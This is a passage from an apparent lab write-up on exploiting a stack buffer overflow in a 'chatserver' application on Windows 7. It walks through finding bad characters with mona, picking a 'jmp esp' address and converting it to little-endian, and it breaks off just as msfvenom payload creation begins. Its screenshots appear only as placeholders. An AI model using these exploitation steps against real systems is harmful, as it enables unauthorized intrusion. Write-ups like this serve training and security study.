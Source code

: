 ```
  print("Could not connect.")
```

![13]

Re-run the chatserver application and throw the exploit with those new values, now we need to find out the bad characters

```
!mona bytearray -b "\x00"
```

![14]

With the above command we generate the bytearray.bin file, now we just need to paste those bad characters in our exploit.py file and compare the ESP address with the generated file

Also can generate them with this python script

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

![15]


Launch the new script and the appication should crash, if not execute the script a couple of times until the application crash

With the following mona command line we have to compare the previous bytearray.bin file with the ESP address that we found after the crash

![16]

![17]

The comparison reports Unmodified, this means that we didn't have bad chars here, with the application on this state we have to find a jump point

```
!mona jmp -r esp -cpb "\x00"
```

![18]

We'll select the first address `625014DF`

Remember that windows7 has Little Endian notation, we should write the address in reverse mode

Converted address: ``\xdf\x14\x50\x62

## Creating malicious Payload

We need to create a payload using msfvenom with the following parameters:
